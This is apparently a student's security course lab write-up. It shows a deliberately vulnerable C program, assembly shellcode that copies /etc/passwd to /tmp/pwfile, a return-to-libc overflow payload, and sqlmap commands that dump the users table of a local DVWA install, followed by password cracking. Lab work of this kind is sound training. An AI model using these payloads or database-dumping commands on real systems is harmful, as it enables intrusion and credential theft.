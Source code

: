 # Lab#1, 22110091, Nguyen Tuan Vu, INSE33030E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 

- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.



- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)

For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy

![task1.01](./Pictures/Task1/1.png)


Then i will compile C asm program and C program to executable code 

![task1.02](./Pictures/Task1/2.png)

I will use an older bash and turn off randomly given stack value.

![task1.03](./Pictures/Task1/3.png)

The pwd of the copy_file `/home/seed/seclabs/LabOnClass/Task1`

Create a global environment varibale using `/home/seed/seclabs/LabOnClass/Task1/copy_file`

![task1.04](./Pictures/Task1/4.png)


The stack frame of main function

![task1.stack](./Pictures/Task1/stack.jpg)

I will find the address of system and exit and that string of varibale 

![task1.06](./Pictures/Task1/6.png)

Address value of system: `0xf7e50db0` will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: `0xf7e449e0` will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env:  `0xffffdf2a` will be inserted with format  `\x2a\xdf\xff\xff`

So the command will be

``` 
    r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x2a\xdf\xff\xff')")
```

output screenshot (optional)

Before 

![task1.before](./Pictures/Task1/before.png)

Execute Code

![task1.execute](./Pictures/Task1/executecode.png)

After

![task1.after](./Pictures/Task1/after.png)

*Conclusion*: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)

![task2.login](./Pictures/Task2/running.png)

- Make sure you can login with default user

So the userdefault will be
username: admin
password: password

![task2.login](./Pictures/Task2/login.png)

- Install sqlmap

Because my virtual machine cannot install sqlmap, i will clone the github and user the sqlmap.py from the author

![task2.sqlmap](./Pictures/Task2/sqlmapinstall.png)


- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

So for this lab, we will turn the dvwa security to low 

![task2.setlow](./Pictures/Task2/setlow.png)

Cookie of the website

![task2.cookie](./Pictures/Task2/cookie.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

The command line for getting database is 
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" --dbs
```

![task2.commandan1](./Pictures/Task2/commandan1.png)

The reuslts

![task2.resultan1](./Pictures/Task2/resultan1.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

Get tables information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa --tables
```
![task2.commandan2tables](./Pictures/Task2/commandan2tables.png)

Reults

![task2.resultan2table](./Pictures/Task2/resultan2table.png)

Get users information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa -T users --dump

```
![task2.commandan2users](./Pictures/Task2/commandan2tables.png)

Results
![task2.resultan2users](./Pictures/Task2/resultan2users.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

So i will create a hashes.txt file to store username and password

![task2.hashescreation](./Pictures/Task2/hashescreation.png)

I have install john the before

![task2.johninstall](./Pictures/Task2/johninstall.png)

We will use the command below to solve the hashes

```
john hashes.txt

```
But my jack the cripper took to long, so i have to use another application to crack them. The result

![task2.hashessolve](./Pictures/Task2/hashessolved.png)
